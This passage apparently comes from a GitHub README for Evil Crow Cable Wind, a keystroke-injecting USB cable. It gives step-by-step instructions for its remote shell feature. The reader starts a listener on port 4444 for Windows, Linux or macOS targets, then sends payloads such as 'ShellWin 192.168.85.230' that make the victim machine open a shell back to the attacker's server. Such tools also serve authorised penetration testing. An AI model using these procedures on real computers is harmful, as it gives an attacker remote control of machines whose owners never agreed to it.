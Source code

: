 | `KEY_F10` | `Press KEY_F10` or `PressRelease KEY_F10`|
| `KEY_F11` | `Press KEY_F11` or `PressRelease KEY_F11`|
| `KEY_F12` | `Press KEY_F12` or `PressRelease KEY_F12`|

# Remote Shell

Evil Crow Cable Wind allows you to execute commands remotely on a computer without a network connection.

Evil Crow Cable Wind uses port 4444 for communication. If you want to change this, modify firmware.ino:

![Port](https://github.com/joelsernamoreno/EvilCrowCable-Wind/blob/main/images/port.png)

You have several ways to run Evil Crow Server.

* Linux and iOS: evilcrow-server.py --port {PORT} --target {windows, linux or mac}
* Android: evilcrow-server.apk (Install the APK on an android phone. Default port 4444)
* Windows: evilcrow-server.exe --port {PORT}

## Linux/iOS Server

1. Run evilcrow-server.py to start the attack:

	* Windows Target: python evilcrow-server.py --port 4444 --target windows
	* Linux Target: python evilcrow-server.py --port 4444 --target linux
	* MacOS Target: python evilcrow-server.py --port 4444 --target macos
	
![Server](https://github.com/joelsernamoreno/EvilCrowCable-Wind/blob/main/images/server.png)

2. Go to the web panel and type the following payload from Live Payload:

	* Windows Target: ShellWin "Evil Crow server IP" (example: ShellWin 192.168.85.230)
	* Linux Target: ShellNix "Evil Crow server IP" (example: ShellNix 192.168.85.230)
	* MacOS Target: ShellMac "Evil Crow server IP" (example: ShellMac 192.168.85.230)
	
3. Click on 'Run Payload'.

## Windows Server

1. Run evilcrow-server.exe to start the attack:

	* Windows, Linux or MacOS Target: evilcrow-server.exe --port 4444

2. Go to the web panel and type the following payload from Live Payload:

	* Windows Target: ShellWin "Evil Crow server IP" (example: ShellWin 192.168.85.230)
	* Linux Target: ShellNix "Evil Crow server IP" (example: ShellNix 192.168.85.230)
	* MacOS Target: ShellMac "Evil Crow server IP" (example: ShellMac 192.168.85.230)
	
3. Click on 'Run Payload'.

![Server](https://github.com/joelsernamoreno/EvilCrowCable-Wind/blob/main/images/server-windows.png)
